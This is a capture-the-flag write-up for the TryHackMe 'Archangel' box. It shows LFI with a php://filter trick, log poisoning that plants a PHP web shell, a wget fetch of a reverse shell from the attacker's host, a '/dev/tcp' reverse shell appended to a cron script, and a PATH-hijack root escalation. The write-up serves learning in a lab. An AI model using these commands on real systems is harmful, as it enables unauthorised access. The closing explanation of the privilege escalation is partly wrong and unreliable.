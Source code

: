 ```yaml
---
layout: post
title: Archangel
categories: [Tryhackme, Easy]
tags: [Nmap, LFI, Reverse shell]
image: https://i.ibb.co/172sMbW/archangel.jpg
---
```

Hello guys and welcome to yet another writeup. This is ye another easy box on tryhackme and is accessible [here](https://tryhackme.com/room/archangel)
We shall tackle some awesome topics which include:
  1. LFI.
  2. Priviledge exploitation.
  3. Web exploitation.
With that said let us get right to it

## NMAP scan.
As usual we are gonna start of by scanning open ports on our machine.
![](https://i.ibb.co/ZVjYSZ9/nmap.png)

We are able to see that port 80 is open and is hosting a web application.
we are able to view a home page which does not have alot on it but we can see a type of hostname

![](https://i.ibb.co/YLJjDwK/wavefire.png)

We can actually use this and and it to our **/etc/hosts** file, then try and go to the page.
![](https://i.ibb.co/TWTBYN0/mafia.png)

## LFI.
Okay guys it is about to get really messy in here. Stay frosty.

So first of all we are going to FUZZ for hidden directories.

![](https://i.ibb.co/kQRKnYg/wfuzz.png)

And we get a hit for **robots.txt**. which when we visit the page looks something like this.

![](https://i.ibb.co/vv2SyZj/robots.png).

And we can actually see another directory **/test.php**. visit this page and we can view another page with a button.

![](https://i.ibb.co/cJPSy3b/control.png)

We can then see that the button redirects us to **?view=/var/www/html/development_testing/mrrobot.php**.

From here we can try to do a path traversal filter. After hours of trial and error I found this filter and it worked.
**php://filter/convert.base64-encode/resource=**
Okay so now we can see some base64 code 
let us try and change **mrrobot.php** to **test.php**. And we can see some more base64. let us decode that.

![](https://i.ibb.co/pnGV1tK/testbase64.png)
![](https://i.ibb.co/944fSfv/lfiflag.png)

And we can get a flag but also we can see some php filters on it.
## Acesslog
Okay so the filter dictates that using **../..** which we can easily bypasss by using **..//..**

Next let us try and view the access log using the bypass.

![](https://i.ibb.co/f98gBfQ/accesslog.png)

So next we can try and pass some malicious code to the user agent. **<?php system($_GET['cmd']); ?>**.
So to do this follow this steps.

 1. right click and press Inspect on the dropdown menu.
 2. click on the Network option and reload the page
 3. Hit resend.
 4. scroll to the user agent and replace with the malicious code.
 5. Hit send.

Smooth so next up let us try and execute some commands on it.
let us try and add **&cmd=ls** to the end of the url.

![](https://i.ibb.co/WWmnG2H/cmd-ls.png)

We can actually run commands on it. so next let us try and get a reverse shell.

## SHELL
So we are going to get a sample php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
Next, we are going to set up a python server on our machine. 
Next, we are going to run **&cmd=wget http://ip/revshell.php**
We should be able to get a 200 code on our machine.
![](https://i.ibb.co/4jKLJfz/httpserver.png)

next start up a listener on your machine
Then run **&cmd=php revshell.php**
going back to our listener we have a shell.

![](https://i.ibb.co/gzQvS34/nc.png)


## Switch user.

So next we can get a better shell by using **python3 -c "import pty;pty.spawn('/bin/bash -i')"**

Then we can check out the cron jobs **cat /etc/crontab**

We can actually see that a job runs as archangel every minute. Which we can read and write.
So we then run **echo "bash -i >& /dev/tcp/ip/1235 0>&1" >> /opt/helloworld.sh**

![](https://i.ibb.co/qFqjRB3/archangel.png)

Then run another listener and wait for a minute. Coffee break.

## ROOT

Moving into the secret directory we can see a file called backup. Running does not do much so we are going to do something crazy. 
So type:
 1. **echo '/bin/bash -p' > cp**
 2. **chmod 777 cp**
 3. **export PATH=/home/archangel/secret:$PATH**
 4. **echo $PATH**
 5. **./backup**

Okay let us dig into what jus happened. This is gonna be crazy but heck.

 1. **echo '/bin/bash -p' > cp**: This command redirects the output of the `echo` command, which is the string `'/bin/bash -p'`, into a file named `cp`. The content of the `cp` file will be `/bin/bash -p`.

 2. **chmod 777 cp**: This command changes the permissions of the `cp` file to allow all users to read, write, and execute it. The `chmod` command is used to modify file permissions, and `777` is a symbolic representation that grants all permissions to the owner, group, and others.

 3. **export PATH=/home/archangel/secret:$PATH**: This command adds a directory called `/home/archangel/secret` to the beginning of the `PATH` environment variable. The `PATH` variable contains a list of directories that the shell searches for executable files. By adding `/home/archangel/secret` at the beginning, any executable file in that directory will take precedence over files with the same name in other directories listed in `PATH`.

 4. **echo $PATH**: This command displays the value of the `PATH` environment variable. After the previous `export` command, it will show `/home/archangel/secret` followed by the original directories that were part of `PATH`.

 5. **./backup**: This command attempts to execute a file named `backup` in the current directory. The `./` prefix indicates that the file should be executed from the current directory instead of searching for it in the directories listed in `PATH`. If the `backup` file exists and has executable permissions, it will be run with the elevated privileges specified in step 1 (`/bin/bash -p`).

Overall, these commands create a file called `cp` with elevated permissions, modify the `PATH` environment variable to prioritize a specific directory, and execute a file named `backup` with elevated privileges. The exact consequences and implications of these actions depend on the specific context and contents of the `backup` file.

And yes we are root.
![](https://i.ibb.co/tCf2k5W/root.png)

## RESOURCES
[BASH FOR BEGINNERS](https://www.tldp.org/LDP/Bash-Beginners-Guide/html/)
[PHP TRICKS](https://devansh.xyz/ctfs/2021/09/11/php-tricks.html)

Okay honestly that was a great learning experience for me and I hope it is the same for you. 
Happy hacking :)

